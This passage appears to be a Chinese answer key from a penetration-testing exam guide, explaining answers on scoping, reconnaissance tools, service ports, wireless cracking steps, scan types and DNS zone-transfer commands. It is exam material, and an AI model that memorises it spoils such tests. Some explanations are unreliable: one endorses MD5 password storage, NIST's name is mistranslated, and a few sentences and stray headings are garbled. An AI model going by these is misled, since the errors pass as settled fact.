* 所收集信息的数据处理要求
* 对目标的预期行为
* 投入测试的资源
* 应解决的任何法律问题
* 何时/如何进行沟通
* 事件发生时联系谁
* 允许参与渗透测试团队的人员


### 145. D.
黑盒测试，有时称为零知识测试，旨在复制攻击者会遇到的情况。测试人员不会被提供对环境或有关环境的访问权限和信息，而必须像攻击者一样收集信息、发现漏洞并穿过基础设施或系统。

### 146. C.
在入侵防御系统（IPSs）、Web 应用防火墙（WAFs）和其他安全设备中将测试人员列入白名单，将允许他们在不被阻止的情况下执行测试。对于白盒测试而言，这意味着当安全措施检测到他们的操作时，测试人员不会花费时间等待解封。黑盒测试和红队测试更可能导致测试人员被列入黑名单或被安全措施阻止。在这种情况下，渗透测试人员应告知客户，测试应侧重于通过所有在范围内的系统发现潜在的安全问题，而不仅仅是确定 IPS 等主动防御措施的有效性。

### 147. C.
SOAP 是一种依赖 XML 和相关模式的 API 标准。基于 XML 的规范由 XML 模式定义（XSD）文档管理。拥有特定 API 支持内容的良好参考对渗透测试人员很有价值。本题特别询问 XML 文件，因此 SOAP 项目文件将是最有益的。

### 148. B and E.
了解公司政策及其对影响的容忍度是在规划项目时需要了解的两项最重要事项。其他事项也很重要，但此场景要求的是最重要的两个。网络安全专业人员普遍认为漏洞管理是任何信息安全计划的关键组成部分，因此许多组织在公司政策中强制要求漏洞扫描，即使这不是监管要求。正在评估的组织的风险和影响容忍度应用于定义评估的范围和参与规则。

### 149. A.
公司政策，也称为 *公司政策*，是一套经过记录的指导方针，是在分析可能影响公司目标、运营和计划的所有内部和外部因素后制定的。它由公司的董事会创建。公司政策规定了公司对已知和可知情况和环境的响应。它还决定战略的制定和实施，并指导和限制公司官员在实现其目标方面的计划、决策和行动。在此场景中，公司政策应详细且具体；因此，公司系统必须使用 MD5 哈希算法存储密码。

### 150. A.
预算是渗透测试业务流程的关键因素。完成渗透测试需要预算，并且由测试范围和参与规则决定。对于内部渗透测试人员，预算可能仅涉及分配给团队进行测试的时间。对于外部测试人员，预算通常从根据测试的复杂程度、团队规模以及任何相关成本估算的工时开始。

### 151. B.
保密控制旨在防止披露攻击。尽管保密协议（CAs）是有助于在双方之间执行保密关系的法律文件，但这个问题询问的是为什么保持发现结果的保密性很重要。如果攻击者在渗透测试期间收到发现结果的通知，他们可以利用这些信息来入侵客户的系统。

### 152. D.
工作说明书（SOW）定义了在项目期间将进行的工作。SOW 是一份文件，定义了测试的目的、将进行哪些测试、将创建什么、测试完成的期限、测试的价格以及任何附加条款和条件。

### 153. C.
大多数渗透测试项目的第一步是确定应测试什么，通常称为评估的 *范围*。评估的范围决定了渗透测试人员将做什么以及他们的时间如何花费。因此，这对评估的预算有重大影响。

### 154. A.
高级持续性威胁（APT）是一种计算机网络攻击，其中个人或团体获得对网络的未经授权访问，并在较长时间内未被发现。APT 在对手分级列表中提供最高级别的威胁。高级持续性威胁行为者使用的许多技术对渗透测试人员有用，反之亦然。如果您的持久性技术未被客户系统监控或检测到，发现结果应包括可以帮助他们规避此潜在问题的信息。

### 155. A, D, and F.
渗透测试人员希望立即直接向客户报告更严重的问题。其中一些将在测试结束时记录在提交给客户的报告中；然而，有少数情况下渗透测试人员应立即致电客户，情况如下：报告任何关键发现，报告任何入侵指标，或报告服务器对测试无响应。

### 156. A.
高级持续性威胁（APT）是一种计算机网络攻击，其中个人或团体获得对网络的未经授权访问，并在较长时间内未被发现。APT 在对手分级列表中提供最高级别的威胁。威胁行为者通常根据其能力进行评级。高级持续性威胁行为者使用的许多技术对渗透测试人员有用，反之亦然。如果您的持久性技术未被客户系统监控或检测到，发现结果应包括可以帮助他们规避此潜在问题的信息。

### 157. C.
范围蔓延，或将更多项目和目标添加到评估范围中，是渗透测试的持续威胁。在范围界定阶段，测试人员不太可能知道可能发现的所有细节，而在评估本身期间，测试人员可能会遇到意外的新的目标。范围蔓延是指项目需求倾向于在项目生命周期中增加的方式。

### 158. B.
Swagger 是定义 REST API 的开放规范。Swagger 文档是 SOAP 基于 Web 服务的 WSDL 文档的 REST API 等价物。Swagger 文档指定了 REST API 中可用的资源列表以及可以在这些资源上调用的操作。它还指定了操作的参数列表，包括参数的名称和类型、参数是必需还是可选，以及这些参数的可接受值的信息。因此，访问 Swagger 文档为测试人员提供了 API 如何工作以及他们如何测试它的良好视图。


### 159. C.
网络杀伤链有七个步骤，可增强对攻击的可见性，并丰富分析师对对手的战术、技术和程序的理解。网络杀伤链是一种方法，用于理解攻击者将如何进行对组织造成伤害所需的活动。理解网络杀伤链将极大地帮助信息安全专业人员建立强大的控制措施和对策，从而保护其组织的资产。本题描述的是网络杀伤链的第一阶段——侦察阶段。在此阶段，攻击者从技术和非技术两个角度在组织外部评估目标。在此阶段，攻击者正在努力确定哪些目标在利用目标信息系统所花费的资源上能带来最大收益。攻击者会寻找保护较少或存在可利用漏洞的信息系统。

### 160. A.
攻击的“行动目标”阶段也可能包括窃取敏感信息、未经授权使用计算资源进行拒绝服务攻击，或未经授权修改/删除信息。在网络杀伤链的“行动目标”阶段，攻击者实施其最初的意图，违反信息或系统的保密性、完整性和/或可用性。

### 161. C.
范围蔓延发生在评估范围被添加额外项目时。测试者已超出初始评估协议的范围。

### 162. D.
红队评估通常比常规渗透测试更具针对性。红队试图像攻击者一样，通过针对敏感数据或系统来获取数据和访问权限。红队评估并非旨在提供目标所有安全缺陷的详细信息。红队可以作为安全演练，用于训练事件响应人员或帮助验证安全设计和实践。

### 163. A.
证书钉扎将主机与 `X.509` 证书（或公钥）关联，然后使用该关联做出信任决策。你使用证书钉扎来帮助防止中间人攻击。在公共网络上通信时，安全地发送和接收信息非常重要。

### 164. B.
黑客行动主义者可能想表达政治或社会观点。黑客行动主义者通常不是为了钱而发动攻击。他们是聚集在一起并认为自己在为不公正而战的个人或黑客团体。黑客行动主义者使用与黑客相同的工具和战术。

### 165. B.
许多渗透测试，尤其是涉及复杂 IT 基础设施的测试，可能需要额外的授权。第三方通常用于托管系统，例如软件即服务（`SaaS`）、平台即服务（`PaaS`）或基础设施即服务（`IaaS`）云提供商。渗透测试可能会影响这些提供商。这就是为什么必须确定是否/哪些第三方提供商或合作伙伴在范围内并获得授权至关重要。如果涉及第三方，你还希望确保客户和第三方都了解渗透测试可能带来的任何影响。

### 166. B.
不披露协议（`NDA`）是一份法律文件，旨在保护客户的数据以及渗透测试人员在测试期间可能遇到的其他信息的保密性。

### 167. C.
主服务协议（`MSA`）规定了两个组织之间的总体条款。许多组织还创建 `MSA` 来定义组织未来工作将使用的条款。这使得持续的合作和合同更容易处理。这可以帮助组织避免重新谈判的需要。当组织预计在一段时间内共同工作或创建支持协议时，`MSAs` 很常见。

### 168. D.
了解哪些服务集标识符（`SSIDs`）属于你的目标以及哪些是无效目标至关重要。此外，了解哪些子网或 IP 范围在范围内也很重要，以避免针对错误的网络或超出渗透测试范围。在共享建筑中工作时，了解范围内的 `SSIDs` 至关重要。渗透错误的网络可能导致法律甚至刑事后果。

# 第 2 章：信息收集和漏洞识别

### 1. B.
在此场景中需要进行黑盒渗透测试，因此你很可能会将大部分时间花在评估的信息收集和漏洞识别阶段。这是因为，按定义，在运行测试之前你应该对组织或其网络知之甚少或一无所知。

### 2. B.
`whois` 命令可用于从公共记录中收集有关特定域名所有者的信息。

### 3. A.
`nslookup` 命令包含在大多数操作系统中，包括 Windows 和 Linux，可用于将组织的域名解析为其关联的 IP 地址。

### 4. C.
`theHarvester` 是一种可在某些 Linux 发行版（如 Kali Linux）上使用的工具，可用于查询搜索引擎以发现目标组织的电子邮件地址、员工姓名和其他详细信息。

### 5. E.
`recon-ng` 实用程序提供了一个网络侦察框架，允许你在网络上对组织进行开源侦察。`Censys` 是一种基于网络的工具，可探测给定的 IP 地址。`whois` 命令可用于从公共记录中收集有关特定域名所有者的信息。`Shodan` 是一种专用工具，渗透测试人员可使用它在公共来源中搜索目标组织可能在其网络中部署的物联网（IoT）设备的证据。

### 6. A.
`Censys` 是一种基于网络的工具，可探测给定的 IP 地址。它会展示其能够发现的有关分配该 IP 地址的主机的任何信息，例如其使用的 SSL/TLS 版本、其使用的密码套件以及其证书链。请注意，一些组织会将其 IP 地址列入黑名单，这严重限制了 `Censys` 能够发现的关于它们的信息量。

### 7. D.
使用收集的档案对组织进行指纹识别（`FOCA`）是一种实用程序，可用于从组织的文档中收集元数据，例如 Word、PowerPoint、OpenOffice 和 Adobe Reader 文件。`FOCA` 在流行的搜索引擎（如 Google 和 Bing）中搜索这些文件并提取它们可能包含的任何元数据。

### 8. B.
`Shodan` 是一种专用工具，渗透测试人员可使用它在公共来源中搜索目标组织可能在其网络中部署的物联网（IoT）设备的证据。这可能很有用，因为物联网设备经常采用渗透测试人员可以利用的较弱的安全机制。

### 9. D.
`Maltego` 是一种渗透测试人员经常用来组织他们从 OSINT 来源收集的信息的实用程序。其主要优势之一是能够以图形方式显示发现的信息并将其可视化链接起来。

### 10. A.
`nmap` 实用程序是一种广泛使用的扫描器。你可以用它扫描单个主机，例如本场景中提到的 Web 服务器，甚至整个网络。要成为一名成功的渗透测试人员，你应该熟悉 `nmap` 用于发现信息的各种方式。

### 11. A and B.
垃圾箱挖掘是一种通过查看其垃圾中发现的文档来收集目标组织信息的技术。同样，`theHarvester` 可用于搜索互联网以查找电子邮件地址和员工姓名。这些信息可用于制作有效的 spear phishing 钓鱼活动。


# 网络侦察和服务端口笔记

### 12. B and E
成功实施鲸鱼式钓鱼攻击的关键在于掌握目标组织领导层的详细信息。有用的信息通常可以从组织的网站上获得，例如新闻稿和执行人员简历的形式。这些信息可以为你提供姓名、职位，甚至可能包括联系方式。

### 13. A and D
开源情报（OSINT）是指任何公开可用且可以被动收集的信息。由于它是被动收集的，因此你不能使用主动与目标组织互动的方法来收集 OSINT。例如，运行漏洞扫描是一种主动方法，而阅读社交媒体帖子和查看公司税务申报则是被动方法。社会保障号码和个人税务申报都是不公开的受保护信息的例子。

### 14. C and D
开源情报（OSINT）是指任何公开可用且可以被动收集的信息。由于它是被动收集的，因此你不能使用主动与目标组织互动的方法来收集 OSINT。例如，运行漏洞扫描是一种主动方法，渗透组织的设施或从不满的员工那里套取信息也是如此。另一方面，从组织的域名注册商处收集信息或阅读组织网站上的招聘信息都是被动收集公开信息的例子。

### 15. A and E
开源情报（OSINT）是指任何公开可用且可以被动收集的信息。由于它是被动收集的，因此你不能使用主动与目标组织互动的方法来收集 OSINT。例如，运行漏洞扫描是一种主动方法，渗透组织的设施也是如此。另一方面，组织网站上的招聘信息以及 LinkedIn 上现任员工的简历都是公开信息的例子。通过审查这两个来源，你可能确定组织部署了哪些类型的系统。

### 16. B and C
`whois` 工具可用于从公开记录中收集域名所有权信息。`recon-ng` 实用程序是一个模块化网络侦察框架，用于组织和管理 OSINT 信息。

### 17. A
`whois` 工具可用于从公开记录中收集域名所有权信息。在本问题所示的示例中，你可以了解到该域名的注册商是谁、拥有它的组织名称、组织的地址、组织的电话号码、管理该域名的员工姓名以及该员工的电子邮件地址。

### 18. B
`nslookup` 实用程序可用于将域名解析为其关联的 IP 地址。

### 19. D
`recon-ng` 实用程序提供了一个网络侦察框架，允许你在网络上对组织进行开源侦察。在此示例中，与指定域名关联的所有面向公众的服务器及其 IP 地址均已显示。

### 20. B
SMTP 邮件中继服务的默认端口是 25 端口。大多数 Linux 发行版使用 `sendmail` 等邮件守护进程进行内部消息传递。然而，它也可以通过端口 25 上的 SMTP 在网络上发送消息。通常，该端口在面向公众的服务器上会被防火墙阻止，以防止守护进程被垃圾邮件发送者用于未经授权的邮件中继。有时，你可能会发现有人打开了 25 端口却忘记关闭的服务器，从而使主机变得脆弱。

### 21. D
使用直接 TCP 连接的 SMB/CIFS 服务的默认端口是 445 端口。SMB/CIFS 协议用于文件共享，因此相关主机必须是文件服务器。

### 22. C
Telnet 服务的默认端口是 23。Telnet 用于使用命令行界面远程管理系统。Telnet 是一个非常老旧且不安全的协议。Telnet 服务器和客户端之间传输的所有信息均未加密，包括身份验证信息。通过嗅探该主机端口 23 的进出流量，你可能能够捕获用户名和密码。

### 23. B
FTP 服务使用的默认端口是 20 和 21。FTP 用于通过网络连接在主机之间传输文件。FTP 是一个非常老旧且不安全的协议。FTP 服务器和客户端之间传输的所有信息均未加密，包括身份验证信息。通过嗅探该主机端口 20 和 21 的进出流量，你可能能够捕获用户名和密码。

### 24. D
TFTP 服务使用的默认端口是 69。TFTP 提供了一种快速简便的方式通过网络连接在主机之间传输文件。与 FTP 不同，TFTP 使用无连接的 UDP 传输层协议而不是 TCP。缺乏确认机制使得 TFTP 服务器比 FTP 服务器传输文件更快。然而，TFTP 是一个不安全的协议。TFTP 服务器和客户端之间传输的所有信息均未加密。此外，TFTP 不提供身份验证连接的手段。因此，任何人都可以连接到该服务并在不提供身份验证凭据的情况下传输文件。

### 25. A
Windows 域控制器托管许多与域相关的服务。因此，大多数域控制器将有许多端口开放。大多数将包括以下内容：
* 端口 88：用于 Kerberos 身份验证。
* 端口 135：用于域控制器与客户端之间以及域控制器之间的通信。
* 端口 138 和 139：用于域控制器之间的文件复制。
* 端口 389：用于 LDAP 查询。
* 端口 445：用于 SMB/CIFS 文件共享。
* 端口 464：用于 Kerberos 密码更改。
* 端口 636：用于安全 LDAP 查询。
* 端口 3268 和 3269：用于全局编录通信。
* 端口 53：用于 DNS 名称解析。

### 26. D
IMAP 服务使用的默认端口是 143。IMAP 协议由邮件服务器用于在邮件服务器和邮件客户端之间传输消息。

### 27. C
SSH 服务使用的默认端口是 22。SSH 协议用于使用命令行界面远程管理系统。与 Telnet 不同，SSH 使用加密来保护身份验证凭据以及客户端和服务器之间传输的数据。

### 28. D
Web 服务器使用的默认端口是 80（HTTP）和 443（HTTPS）。端口 80 上传输的数据通常以明文发送，而端口 443 上发送的数据使用 SSL/TLS 加密。

### 29. A
LDAP 服务器使用的默认端口是 389（不安全）和 636（安全）。LDAP 协议用于查询 LDAP 兼容的目录服务器，例如 Active Directory 或 eDirectory。由于端口 389 上发送的目录信息未加密，嗅探该端口的流量可能会泄露用户账户信息。

### 30. D
DNS 服务器使用的默认端口是 53。DNS 服务用于将主机名解析为 IP 地址（反之亦然）。如果 DNS 服务器安全性较差，你可能能够入侵它并污染查找表，从而将合法的域名解析请求重定向到一个虚假的目标主机，在该主机上可对客户端系统实施各种攻击。

### 31. A
`traceroute` 命令输出中的 `***` 字符表示该路由特定跳数的路由器已启动并正在转发流量，但不允许响应 `traceroute` 命令使用的 ping。

### 32. C and D
该域名关联了一个 Web 服务器。它配置为在端口 80 上使用 HTTP 协议（不安全）和 HTTPS 协议（安全）。


### 33. D 和 E。
在此示例中，组织的 SSL/TLS 证书使用 SHA256 加密哈希函数进行签名。此外，可以看出组织使用 IIS Web 服务器，该服务器运行在 Windows Server 之上。

### 34. A。
在此示例中，显示为“250 2.1.5 Recipient OK”的行表明这是目标组织域内的有效电子邮件地址。然而，它并不能揭示该地址属于谁。你所知道的只是这是一个合法的电子邮件。要在渗透测试中使用它，你首先需要将其与公司高管名单进行三角验证，例如有时可以在组织的网站上找到。

### 35. B。
在此示例中，显示为“250 2.1.5 Recipient OK”的行表明这是目标组织域内的有效电子邮件地址。因为这是有效的电子邮件地址，你现在知道组织很可能使用 `first_initial`+`lastname`@`company_name`.com 的电子邮件命名惯例。利用此信息，你可以参考组织的执行人员简介网页并为其所有管理团队成员构建电子邮件地址。

### 36. D。
在此示例中，输出告诉我们电子邮件服务器响应 SMTP `HELO` 命令。有时可以使用 `HELO` 命令从电子邮件服务器获取有用信息。

### 37. A 和 D。
枚举过程涉及连接到网络段上发现的每个主机并识别关键信息，包括每个主机正在运行的服务以及已安装操作系统的版本号。

### 38. D。
枚举过程涉及连接到网络段上发现的每个主机并识别关键信息。在此示例中，请注意该设备的操作系统类别如下：
* 类型: **WAP**
* 厂商: **Belkin**
* 操作系统家族: **Embedded**
从这些信息中，你可以合理推断该设备是无线接入点。

### 39. B。
在“Ports Used”下，注意到设备上 TCP 80 端口是开放的。这表明它很可能正在运行 HTTP Web 服务器。

### 40. A。
通过在互联网上搜索“Operating System”下显示的操作系统版本号，你很可能可以发现设备使用的默认管理员用户名和密码。过去几年中，多起高知名度漏洞利用之所以得以实现，是因为系统实施者未能更改网络基础设施设备使用的默认用户名和密码。

### 41. C。
请注意“Hostnames > Name”下设备的 hostname 以 `android` 开头。从中可以合理推断该设备很可能是一部运行 Android 操作系统的手机或平板电脑。

### 42. C。
请注意该设备正在运行 Windows Server 2012，并且其端口 53 是开放的，这是 DNS 服务器的默认端口。因此可以合理推断，该服务器是域控制器。Windows 服务器上的 Active Directory 角色需要 DNS 角色。虽然 DNS 角色可能位于不同的成员服务器上，但 Active Directory 几乎总是安装在与 DNS 角色相同的服务器上。

### 43. E。
本问题列出的答案中没有任何一个可以从 Zenmap 显示的信息中合理推断出来。你知道它是一台 Windows 服务器，并且很可能是一个域控制器，但从所提供的信息中无法推断出太多其他内容。

### 44. A。
横幅抓取是手动使用诸如 `Telnet` 客户端或 `Ncat` 之类的工具连接到设备（如 Web 服务器）的过程，并利用显示的信息对设备进行指纹识别。

### 45. B 和 D。
在此示例中，设备在 80 和 443 端口上运行 Web 服务器。端口 515、631 和 9100 都用于提供网络打印。

### 46. C。
在此示例中，你将在 Linux 系统的 shell 提示符下输入 `telnet 10.0.0.1 80` 以抓取目标 Web 服务器的横幅。

### 47. C 和 E。
在此示例中，你知道设备正在运行 Apache Web 服务器。另请注意设备的名称为“Untangle Server”。通过在互联网上搜索，你可以了解到 Untangle 销售用于管理进出网络流量的安全设备。因此，你可以合理假设该设备是该公司的安全设备。

### 48. B。
此示例中的设备很可能是一台 Windows 工作站。这可以通过系统上默认的 SMB/CIFS 文件共享端口是开放的这一事实得到证实。

### 49. C。
此示例中的设备很可能是一台运行在 Windows Server 上的域控制器。这可以通过系统上默认的 DNS 服务器、LDAP 和 Kerberos 端口是开放的这一事实得到证实。

### 50. C 和 D。
此示例中的设备分析起来有点困难。你可以清楚地看到它正在运行 DNS 服务器和 Web 服务器。然而，这里显示的信息不足以推断出太多其他内容。一个可能性是它是一个无线路由器，其中包含一个仅缓存的 DNS 服务器和一个嵌入式 Web 服务器，该服务器用于配置和管理设备。然而，要做出此判断还需要更多信息。

### 51. A。
`sslyze` 工具是一种常用的渗透测试工具，用于执行证书检查。

### 52. B 和 C。
在此示例中，`sslyze` 命令的输出显示 Web 服务器响应了 TLSv1_1 和 TLSv1_2 查询，但未响应 SSLv2、SSLv3 或 TLSv1 查询。

### 53. A 和 C。
你可以使用 `tcpdump` 或 `Wireshark` 在有线网络上捕获数据包。在两者中，`Wireshark` 通常被认为具有最用户友好的界面。

### 54. A。
`Aircrack-ng` 实用程序可用于发现范围内的无线网络，然后破解其加密。对于旧的 WEP 网络，此过程非常快；对于 WPA 网络则更困难但可行；对于 WPA2 网络则相当具有挑战性。

### 55. A。
在无线网络接口可用于捕获无线网络流量之前，必须将其配置为在发送接入点使用的特定频道上以监控模式运行。

### 56. A。
在使用 `Aircrack-ng` 破解无线网络的加密之前，你必须先在发送接入点使用的特定频道上运行 `airodump-ng` 实用程序以收集身份验证握手。

### 57. B。
在使用 `Aircrack-ng` 破解无线网络的加密之前，你必须先在发送接入点使用的特定频道上运行 `airodump-ng` 实用程序以收集身份验证握手。然后，你需要通过运行 `aireplay-ng` 实用程序来对无线客户端进行去认证。

### 58. B。
在有线网络上捕获数据包之前，必须将你的网络接口配置为以混杂模式运行。否则，它将丢弃所有未专门发送到其地址的接收帧。

### 59. D。
这里的问题是网络使用的是交换机而不是集线器。交换机会学习连接到每个交换机端口的每个网络接口的 MAC 地址。它仅将帧传输到目标网络接口所连接的特定端口。因此，你的笔记本电脑永远看不到传输到网络上任何其他主机的帧。


# 文档排版

### 60. D.
这里的问题是网络使用的是交换机而不是集线器。交换机会学习连接到每个交换机端口的每个网络接口的 MAC 地址。它只将帧传输到目的网络接口所连接的特定端口。正因如此，你的笔记本电脑永远看不到发送给网络上其他主机的帧。虽然理论上你可以把网络交换机换成集线器，但你的客户可能不会允许你这样做。最佳方案是将笔记本电脑连接到交换机的镜像端口。镜像端口包含发送到所有其他交换机端口的帧的副本。这允许你的笔记本电脑看到发往其他主机的帧。但是，在这样做之前，你需要确保这在测试的交战规则下是允许的。

### 61. A.
在这种情况下你可以尝试的一种方法是反编译应用程序的可执行文件。此过程将揭示应用程序的汇编级代码，你可以分析其是否存在弱点。

### 62. B.
大多数反编译器生成的是汇编级源代码，而不是 `C++` 代码。要使这些信息有用，你需要有丰富的汇编语言代码工作经验。通常，这需要你聘请一位对汇编编程有深入理解的顾问。

### 63. B.
调试器允许你在应用程序执行时对其进行分析。通常，你可以逐步暂停应用程序的执行，或者让它运行直到达到代码中的某一点。这样做可能允许你识别出可在渗透测试中利用的漏洞。然而，要有效地做到这一点，你必须具备扎实的编程或应用程序测试背景。

### 64. A.
美国政府的计算机应急响应小组（CERT）维护着一个网站于 [`http://www.us-cert.gov`](http://www.us-cert.gov)，该网站包含定期更新的、目前向 CERT 报告的最频繁、高影响类型的网络安全事件摘要。

### 65. B.
JPCERT 是日本政府的美国政府计算机应急响应小组（CERT）版本。JPCERT 维护着一个网站于 [`https://www .jpcert.or.jp/english/`](https://www.jpcert.or.jp/english/)，该网站提供当前安全警报和通告的动态摘要。

### 66. D.
国家漏洞数据库（NVD）由美国政府的国家科学技术研究所维护。NVD 可通过 [`https://nvd .nist.gov`](https://nvd.nist.gov) 访问。该网站提供按严重程度排序的当前安全漏洞摘要。

### 67. C.
通用漏洞和暴露（CVE）数据库是一个社区开发的资源，可通过 [`http://cve.mitre.org`](http://cve.mitre.org) 访问。CVE 数据库包含一份公开已知的网络安全漏洞清单。每当世界各地的任何厂商发现其产品中的漏洞时，他们就会在 CVE 数据库中添加一条条目。其目标是创建一个人人可用的通用资源，而不是每个个别厂商各自维护一个仅包含与其产品相关漏洞的数据库。

### 68. C.
通用弱点和枚举（CWE）数据库是一个社区开发的资源，可通过 [`http://cwe.mitre.org`](http://cwe.mitre.org) 访问。CWE 数据库包含一份公开已知的与软件总体相关而非特定产品的网络安全漏洞清单。

### 69. D.
通用攻击模式、枚举和分类（CAPEC）数据库是一个社区开发的资源，可通过 [`http://capec.mitre.org`](http://capec.mitre.org) 访问。CAPEC 数据库包含常用网络攻击模式的目录。

### 70. B.
Full Disclosure 是一个开源研究来源，由生产 `nmap` 工具的同一组织发布。它可通过 [`www.seclists.org/fulldisclosure`](http://www.seclists.org/fulldisclosure) 访问。

### 71. D.
本题列出的每个开源研究来源都可能包含可用于查找 `IIS` Web 服务器软件旧版本已知漏洞的信息。

### 72. A.
CERT 数据库包含软件和硬件厂商发布的近期安全更新信息以及它们旨在解决的漏洞描述。

### 73. A.
CAPEC 数据库包含有关用于利用弱点、包括物理安全漏洞的已知攻击模式的信息。

### 74. D.
国家漏洞数据库（NVD）网站提供按严重程度排序的当前安全漏洞摘要。

### 75. A.
通用漏洞和暴露（CVE）数据库是一个社区开发的资源，包含一份公开已知的网络安全漏洞清单。每当世界各地的任何厂商发现其产品中的漏洞时，他们就会在 CVE 数据库中添加一条条目。你可以搜索 CVE 网站以获取有关 Server 2003 SP2 的信息。

### 76. A.
凭证化漏洞扫描要求你首先对网络进行身份验证，最好使用管理员级别的账户。由于使用了管理员凭证，这种扫描类型最接近内部管理员的视角。

### 77. B.
非凭证化漏洞扫描是在未对网络进行身份验证的情况下执行的。正因如此，非凭证化扫描最接近外部黑客的视角。

### 78. A.
凭证化漏洞扫描要求你首先对网络进行身份验证，最好使用管理员级别的账户。由于使用了管理员凭证，这种扫描类型通常能识别出最多的漏洞。

### 79. B.
非凭证化漏洞扫描是在未对网络进行身份验证的情况下执行的。正因如此，非凭证化扫描通常识别出的漏洞数量最少。

### 80. A.
`ping` 扫描是发现扫描的一个例子。`ping` 扫描的目标不是询问每个系统。相反，它只是寻求识别网络上每个可达系统的存在。

### 81. A.
发现扫描旨在简单地绘制目标网络上的每个系统。因此，它使用非常非侵入性的机制（如 `ping`）来枚举网络。

### 82. B.
全面扫描会询问目标网络上发现的每个主机。由于它使用侵入性方法来做到这一点，全面扫描通常会被 IDS 或 IPS 设备迅速检测到（并可能被阻止）。

### 83. A.
发现扫描旨在使用非常非侵入性的机制（如 `ping`）来枚举网络，从而简单地绘制目标网络上的每个系统。正因如此，这种类型的扫描最不可能被 IDS 或 IPS 设备检测到。

### 84. B.
全面扫描使用侵入性方法询问目标网络上发现的每个主机。全面扫描通常会被 IDS 或 IPS 设备迅速检测到（并可能被阻止）。正因如此，全面扫描更可能被防御者用来彻底测试其网络。渗透测试人员不太可能使用全面扫描，因为它会被如此迅速地检测到。例外情况是白盒测试，在这种测试中，每个人都已经预期渗透测试人员正在运行漏洞扫描。

### 85. C.
隐蔽扫描通过向目标网络上的主机发送 `SYN` 数据包来枚举主机。如果收到 `SYN-ACK`，则扫描器知道目标主机存在。`SYN-ACK` 还包含扫描器可以捕获和分析的主机的有限信息。

### 86. C.
隐蔽扫描通过操纵 `TCP` 三次握手来枚举目标网络上的主机。首先，它向目标发送一个 `SYN` 数据包。如果收到 `SYN-ACK`，则扫描器知道目标主机存在。`SYN-ACK` 还包含扫描器可以捕获和分析的主机的有限信息。


# 漏洞扫描笔记

### 87. D.
隐蔽扫描通过操纵 TCP 三次握手来枚举目标网络上的主机。首先，它向目标发送 SYN 数据包。如果收到 SYN-ACK，则扫描器知道目标主机存在。与其通过发送 ACK 数据包来完成连接，扫描主机通过发送 RST 数据包来重置连接。

### 88. A.
隐蔽扫描目前已不像过去那样隐蔽。大多数现代 IDS/IPS 设备可以检测到隐蔽扫描期间在网络上产生的 RST 数据包异常高频率，并采取适当措施。例如，IDS 可以生成警报。IPS 可以生成警报并阻止来自扫描主机的流量。

### 89. B.
因为在完整漏洞扫描期间与每个主机建立了完整连接，所以可以对其进行彻底的询问和指纹识别。结果，完整扫描通常会产生最准确的信息。然而，它们也最容易被防御者检测到。

### 90. D.
合规漏洞扫描用于验证目标组织是否符合给定法律或政策的要求。在此示例中，PCI-DSS 渗透测试通常需要 PCI-DSS 合规漏洞扫描。

### 91. D.
在白盒渗透测试期间枚举目标网络时，您可能会收集大量信息。例如，您可能希望枚举网络上的所有子网、主机和域。

### 92. D.
在白盒渗透测试期间枚举目标网络时，您可能会收集大量信息。例如，您可能希望枚举任何可以发现的用户和组账户。您还希望枚举任何可以识别的网络共享。

### 93. E.
在白盒渗透测试期间枚举目标网络时，您可能会收集大量信息。例如，您可能希望枚举网络上使用的任何网页、应用程序、服务和令牌。

### 94. C.
将扫描限制为使用最小带宽会显著减慢扫描过程。然而，它也会使扫描对 IDS/IPS 设备变得不那么明显，并让它们有时间更彻底地对网络设备进行指纹识别。

### 95. B.
通过安排扫描在工作时间较少的人在工作的时间运行，您可以最大程度地减少对生产流量可用网络带宽的影响，并且还可以避免被内部网络管理员发现。

### 96. C.
您没有管理凭据并不意味着您必须放弃枚举和指纹识别，也并不意味着您必须取消测试。相反，您可以尝试制作鱼叉式网络钓鱼攻击，诱骗内部用户泄露其登录凭据。

### 97. C.
因为您只扫描 Web 服务器，所以您可能可以将漏洞扫描限制为 Web 服务器常用的端口和协议。对所有端口和协议进行彻底扫描将花费相当长的时间。

### 98. A and C.
从网络拓扑角度来看，PCI-DSS 标准要求您从内部和外部网络位置运行漏洞扫描。应比较两次扫描的结果以识别漏洞。

### 99. A.
`nmap -T*n*` 选项用于指定计时模板，其中 `n` 是 0 到 5 之间的数字。数字越高，漏洞扫描越快。数字越低，扫描越慢。

### 100. C.
因为 T1 线路限制为 1.54 Mbps，所以您必须限制漏洞扫描使用的带宽。如果不这样做，您很容易耗尽所有可用带宽，而不为关键业务操作留下任何带宽。您可以使用 `nmap` 命令中的 `-T*n*` 选项来降低扫描速度。由于连接带宽较低，您应考虑使用 `nmap` 命令中的 `-T2` 或甚至 `-T1` 选项。`-T0` 选项可能会过度限制扫描，导致完成时间过长。

### 101. C.
因为服务器被视为脆弱系统，所以您应限制漏洞扫描使用的带宽。如果不这样做，您很容易用扫描耗尽服务器的所有资源，而不为关键业务操作留下任何资源。您可以使用 `nmap` 命令中的 `-Tn` 选项来降低扫描速度。在此场景中，您应考虑使用 `nmap` 命令中的 `-T2` 或甚至 `-T1` 选项。`-T0` 选项可能会过度限制扫描，导致完成时间过长。

### 102. A and E.
容器可用于创建隔离环境，类似于虚拟机。因此，在容器环境中运行的任何应用程序可能无法被传统漏洞扫描检测到。与虚拟机不同，容器与容器主机共享大部分基础操作系统。因此，容器主机基础操作系统相关的漏洞可能被其容器继承。

### 103. A.
静态代码分析是通过分析应用程序的源代码进行的。显然，这种类型的测试通常只在白盒渗透测试期间执行。静态代码分析不涉及实际运行程序。相反，它专注于分析应用程序的编写方式。

### 104. B and C.
动态代码分析以及模糊测试都是在运行代码上执行的。因为执行这些测试不需要源代码，所以它们可以在灰盒或黑盒渗透测试期间执行。

### 105. B.
模糊测试涉及向应用程序的输入发送随机、意外或无效数据，以测试其如何处理这些数据。这称为异常处理。许多攻击可以利用应用程序无法正确处理意外数据的能力来部署。

### 106. C.
网络电视机是非传统系统的示例。这些设备被认为脆弱，因为它们在传统意义上难以管理。并且它们可能由厂商不频繁地更新。它们也可能未经过厂商的广泛安全测试。

### 107. B.
计算机控制的制造设备是非传统系统的示例。这些设备被认为脆弱，因为它们在传统意义上难以管理，并且可能由厂商不频繁地更新。它们也可能未经过厂商的广泛安全测试。

### 108. A and B.
`dig axfr @nameserver target_domain` 或 `host -t axfr target_domain nameserver` 命令可用于执行区域传输。如果成功，则可以收集目标网络内所有网络基础设施主机的相当详细的列表。理想情况下，目标组织已在其 DNS 服务器上禁用未经身份验证的区域传输。如果是这种情况，以上任一命令都将返回某种“Transfer Failed”错误消息。

### 109. A.
